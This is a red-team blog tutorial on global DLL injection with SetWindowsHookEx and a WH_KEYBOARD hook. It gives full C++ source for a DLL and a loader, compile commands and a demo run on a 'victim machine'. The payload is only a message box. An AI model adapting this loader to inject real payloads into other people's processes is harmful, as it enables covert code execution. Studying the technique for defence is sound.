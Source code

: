 ```yaml
---
title:  "Classic DLL injection via SetWindowHookEx. Simple C++ malware."
date:   2021-11-25 10:00:00 +0600
header:
  teaser: "/assets/images/25/2021-11-24_18-00.png"
categories: 
  - tutorial
tags:
  - dll injection
  - windows
  - malware
  - red team
---
```


﷽

Hello, cybersecurity enthusiasts and white hackers!

![dll injection](/assets/images/25/2021-11-24_18-00.png){:class="img-responsive"}    

In this tutorial, I'll take a look at the DLL injection by using the `SetWindowsHookEx` method.    

### SetWindowsHookEx

Let's go to look an example which demonstrates this technique. The `SetWindowsHookEx` installs a hook routine into the hook chain, which is then invoked whenever certain events are triggered. Let's take a look at the function syntax:
```cpp
HHOOK SetWindowsHookExA(
  [in] int       idHook,
  [in] HOOKPROC  lpfn,
  [in] HINSTANCE hmod,
  [in] DWORD     dwThreadId
);
```

The most important param here is `idHook`. The type of hook to be installed, which can hold one of the following values:

    WH_CALLWNDPROC
    WH_CALLWNDPROCRET
    WH_CBT
    WH_DEBUG
    WH_FOREGROUNDIDLE
    WH_GETMESSAGE
    WH_JOURNALPLAYBACK
    WH_JOURNALRECORD
    WH_KEYBOARD
    WH_KEYBOARD_LL
    WH_MOUSE
    WH_MOUSE_LL
    WH_MSGFILTER
    WH_SHELL
    WH_SYSMSGFILTER

In our case, I'll be hooking the `WH_KEYBOARD` type of event, which will allow us to monitor keystroke messages.

### Malicious DLL

Let's go to prepare our malicious DLL. For simplicity, we create DLL which just pop-up a message box:
```cpp
/*
evil.cpp
simple DLL for DLL inject to process
author: @cocomelonc
https://cocomelonc.github.io/tutorial/2021/11/25/malware-injection-7.html
*/

#include <windows.h>
#pragma comment (lib, "user32.lib")

BOOL APIENTRY DllMain(HMODULE hModule,  DWORD  nReason, LPVOID lpReserved) {
  switch (nReason) {
  case DLL_PROCESS_ATTACH:
    break;
  case DLL_PROCESS_DETACH:
    break;
  case DLL_THREAD_ATTACH:
    break;
  case DLL_THREAD_DETACH:
    break;
  }
  return TRUE;
}

extern "C" __declspec(dllexport) int Meow() {
  MessageBox(
    NULL,
    "Meow from evil.dll!",
    "=^..^=",
    MB_OK
  );
  return 0;
}

```

As you can see we have a pretty simple DLL. The `DllMain()` function is called when the DLL is loaded into the process's address space. There's also a function named `Meow()`, which is an exported function and which is just pop-up message *"Meow from evil.dll!"*.   

### Example. Simple malware.

The next thing that we need to do is create our malware. Let's go to look the source code:
```cpp
/*
hack.cpp
DLL inject via SetWindowsHookEx
author: @cocomelonc
https://cocomelonc.github.io/tutorial/2021/11/25/malware-injection-7.html
*/
#include <windows.h>
#include <cstdio>

typedef int (__cdecl *MeowProc)();

int main(void) {
  HINSTANCE meowDll;
  MeowProc meowFunc;
  // load evil DLL
  meowDll = LoadLibrary(TEXT("evil.dll"));

  // get the address of exported function from evil DLL
  meowFunc = (MeowProc) GetProcAddress(meowDll, "Meow");

  // install the hook - using the WH_KEYBOARD action
  HHOOK hook = SetWindowsHookEx(WH_KEYBOARD, (HOOKPROC)meowFunc, meowDll, 0);
  Sleep(5*1000);
  UnhookWindowsHookEx(hook);

  return 0;
}
```

It's also pretty simple. First of all we call `LoadLibrary` to load our malicious DLL:    

![dll injection 2](/assets/images/25/2021-11-25_15-35.png){:class="img-responsive"}    

Then, we are calling the `GetProcAddress` to get the address of the exported function `Meow`:    

![dll injection 3](/assets/images/25/2021-11-25_15-36.png){:class="img-responsive"}    

After that, the our malware calls the most important function, the `SetWindowsHookEx`. The parameters passed to that function determine what the function will actually do:   

![dll injection 4](/assets/images/25/2021-11-25_15-40.png){:class="img-responsive"}    

As you can see, whenever the keyboard event will occur, our function will be called. And we are passing the address of the our exported function - `meowFunc` parameter. Also we are passing the handle to our DLL - `meowDll` parameter. The last parameter `0` specifies that we want all programs to be hooked, not just a specific one, so it's a global hook.    

Then we call `Sleep`:

![dll injection 5](/assets/images/25/2021-11-25_15-44.png){:class="img-responsive"}    

for demonstrate that our hook works.

Then we call the `UnhookWindowsHookEx()` function to unhook the previously hooked `WH_KEYBOARD` action:

![dll injection 6](/assets/images/25/2021-11-25_15-46.png){:class="img-responsive"}    

So finally after we understood entire code of the malware, we can test it.    
Let's go to compile malicious DLL firstly:
```bash
x86_64-w64-mingw32-gcc -shared -o evil.dll evil.cpp -fpermissive
```

![dll injection 7](/assets/images/25/2021-11-25_15-48.png){:class="img-responsive"}    
 
compile malware code:
```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe -mconsole -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![dll injection 8](/assets/images/25/2021-11-25_15-50.png){:class="img-responsive"}    

Then, see everything in action! Start our `hack.exe` on the victim machine (Windows 7 x64):
```cmd
.\hack.exe
```

![dll injection 9](/assets/images/25/2021-11-25_15-54.png){:class="img-responsive"}    

We can see that everything was completed successfully and at this point whenever we start a program, pop-up our message only when keyboard key is pressed.   

### Conclusion

In this article, I've demonstrate how we can use the `SetWindowsHookEx` function to inject the DLL into the process's address space and execute arbitrary code inside the process's address space.    

There is a caveat. This technique is not working in my Windows 10 x64 machine. I think the reason is this: CIG block this technique. Windows 10 x64 have two important things:

- **CFG (Control Flow Guard)** – prevent indirect calls to non-approved 
addresses
- **CIG (Code Integrity Guard)** - only allow modules signed by 
Microsoft/Microsoft Store/WHQL to be loaded into the process memory.   

In [this](https://i.blackhat.com/USA-19/Thursday/us-19-Kotler-Process-Injection-Techniques-Gotta-Catch-Them-All.pdf) presentation from BlackHat USA 2019, the authors explain that CIG block this technique.    

[BlackHat USA 2019 process injection techniques Gotta Catch Them All](https://i.blackhat.com/USA-19/Thursday/us-19-Kotler-Process-Injection-Techniques-Gotta-Catch-Them-All.pdf)     
[SetWindowsHookEx](https://docs.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-setwindowshookexa)    
[Using Hooks MSDN](https://docs.microsoft.com/en-us/windows/win32/winmsg/using-hooks)    
[Exporting from a DLL](https://docs.microsoft.com/en-us/cpp/build/exporting-from-a-dll-using-declspec-dllexport?view=msvc-170)        
[Source code in Github](https://github.com/cocomelonc/2021-11-24-malware-injection-7)    

> This is a practical case for educational purposes only.      

Thanks for your time, happy hacking and good bye!    
*PS. All drawings and screenshots are mine*